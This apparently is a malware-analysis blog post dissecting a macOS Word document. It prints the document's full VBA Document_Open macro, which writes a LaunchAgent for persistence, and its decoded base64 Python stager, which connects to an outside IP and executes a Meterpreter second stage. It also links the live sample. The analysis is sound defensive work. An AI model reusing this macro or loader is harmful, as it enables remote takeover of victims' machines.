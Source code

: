```yaml
---
title: iScam:When a Word Document Wields More Than Just Words
author: Vishal Chand
date: 2025-01-22
categories: [Malware Analysis]
tags: [MacOS,Word Document]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/11.png
---
```

Analyzing macOS Word Document Malware

Malware sample : [Click me](https://objective-see.com/downloads/blog/blog_0x3A/BitcoinQuestions.zip)

First let's confirm file type by using `file` command.

![file type](/assets/img/posts/13.png)

So it's a word document!

Now let put this up in [Virus Total](https://www.virustotal.com/gui/) 

![md5](/assets/img/posts/12.png)

> Word documents are actually compressed archives (containing XML files).Which means we can “unzip” the document to view its contents.
{: .prompt-info }

![unzip](/assets/img/posts/14.png)

> VBA macros [in a Word Document] are usually stored in a binary `OLE file` within the compressed archive, called vbaProject.bin
{: .prompt-info }

In above picture we can see the presence of `vbaProject.bin`, which means Word document contains macros!

To extract embedded macros we can use clamAV's `sigtool`. vbaProject.bin a binary OLE file.

You can install clamAV via the following:
```shell
brew install clamav
```
> Executing sigtool with the --vba flag, extracts the embedded macros from the word/vbaProject.bin
{: .prompt-tip } 

```shell
bornpresident@President-iMac Downloads % sigtool --vba word/vbaProject.bin 
-------------- start of code ------------------
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True

-------------- end of code ------------------


-------------- start of code ------------------
Attribute VB_Name = "NewMacros"
Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
Private Sub Document_Open()
Dim path As String
Dim payload As String
payload = "import base64,sys;exec(base64.b64decode({2:str,3:lambda ... }[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ" & _
"1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29" & _
"ubmVjdCgoJzEwOS4yMDIuMTA3LjIwJyw5NjIyKSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWN" & _
"rKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')));"
path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
"<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
"<plist version=""1.0"">\n" & _
"<dict>\n" & _
"<key>Label</key>\n" & _
"<string>com.xpnsec.sandbox</string>\n" & _
"<key>ProgramArguments</key>\n" & _
"<array>\n" & _
"<string>python</string>\n" & _
"<string>-c</string>\n" & _
"<string>" & payload & "</string>" & _
"</array>\n" & _
"<key>RunAtLoad</key>\n" & _
"<true/>\n" & _
"</dict>\n" & _
"</plist>"
Result = system("echo """ & arg & """ > '" & path & "'", "r")
'Result = system("launchctl bootout gui/$UID", "r")
End Sub
-------------- end of code ------------------
```
`Private Sub Document_Open()`event occurs when a document is opened.So, the Visual Basic macro code within the in the Document_Open() subroutine will be executed when the malicious Word document,BitcoinMagazine-Quidax_InterviewQuestions_2018.docm, is opened.

So what does the code in the Document_Open() subroutine do?

1. Decodes a chunk (of what appears to be python) code into a variable named payload.
2. Builds a path to a launch agent plist…in a rather interesting manner.
3. Builds a launch agent plist (com.xpnsec.plist) saving this into a variable named arg.
4. Saves said launch agent to disk, via the system command.
5. Forces a logout via launchctl bootout gui/$UID.

> It's not that easy to run macro code within a malicious document beacuse of `Word’s sandbox` but it can bt bypassed. Please refer:[Escaping the Microsoft Office Sandbox](https://objective-see.com/blog/blog_0x35.html)
{: .prompt-info }

#### Decoding python shell
```python
$ python
>>> import base64
>>> payload = "aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5n...30pCg=="
>>> base64.b64decode(payload)

"import socket,struct,time\nfor x in range(10):\n\ttry:\n\t\ts=socket.socket(2,socket.SOCK_STREAM)\n\t\ts.connect(('109.202.107.20',9622))\n\t\tbreak\n\texcept:\n\t\ttime.sleep(5)\nl=struct.unpack('>I',s.recv(4))[0]\nd=s.recv(l)\nwhile len(d)<l:\n\td+=s.recv(l-len(d))\nexec(d,{'s':s})\n"
```
```python
import socket, struct, time

for x in range(10):
  try:
    s=socket.socket(2,socket.SOCK_STREAM)
    s.connect(('109.202.107.20',9622))        //Tries to connect a server at 109.202.107.20 on port 9622 for 10 times
    break
  except:
    time.sleep(5)

l=struct.unpack('>I',s.recv(4))[0]  //Receives 4 bytes from the server (this is variable length of the rest of the payload)
d=s.recv(l)

while len(d)<l:
  d+=s.recv(l-len(d))

exec(d,{'s':s})  //Executes the payload (our 2nd payload)
```
#### Stage 2

```python
$ python download.py 

#!/usr/bin/python
import binascii
import code
import os
import platform

...

try:
    import ctypes
except ImportError:
    has_windll = False
else:
    has_windll = hasattr(ctypes, 'windll')

...

#@export
class MeterpreterChannel(object):
    def core_close(self, request, response):
        self.close()
        return ERROR_SUCCESS, response

...

#@export
class MeterpreterFile(MeterpreterChannel):
    def __init__(self, file_obj):
        self.file_obj = file_obj
        super(MeterpreterFile, self).__init__()

...

#@export
class MeterpreterProcess(MeterpreterChannel):
    def __init__(self, proc_h):

...
```
2nd stage payload is meterpreter. 





